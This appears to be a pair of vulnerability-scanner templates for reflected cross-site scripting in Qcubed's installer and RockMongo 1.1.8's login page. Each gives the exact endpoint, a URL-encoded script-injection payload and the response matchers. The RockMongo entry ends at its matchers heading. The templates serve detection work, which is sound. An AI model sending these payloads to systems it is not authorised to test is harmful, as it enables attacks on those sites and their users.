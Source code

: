 # Qcubed - Cross-Site Scripting
## Description
- Qcubed contains a cross-site scripting vulnerability which allows a remote attacker to inject arbitrary JavaScript via the /assets/php/_devtools/installer/step_2.php endpoint and the installation_path parameter.
- severity - high
- tags - xss,qcubed
## Requests
- Method - GET
### URL
- {{BaseURL}}/assets/php/_devtools/installer/step_2.php?installation_path=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
- {{BaseURL}}/qcubed/assets/php/_devtools/installer/step_2.php?installation_path=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - status**
- status
    1. 200

**Type - word**
- part - header
- words
    1. text/html

---
# RockMongo 1.1.8 - Cross-Site Scripting
## Description
- RockMongo 1.1.8 contains a cross-site scripting vulnerability which allows attackers to inject arbitrary JavaScript into the response returned by the application.
- severity - high
- tags - rockmongo,xss,packetstorm
## Requests
- Method - POST
- Method - POST
### URL
- {{BaseURL}}/index.php?action=login.index
  - more=0&host=0&username=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&password=&db=&lang=en_us&expire=3
### Matchers
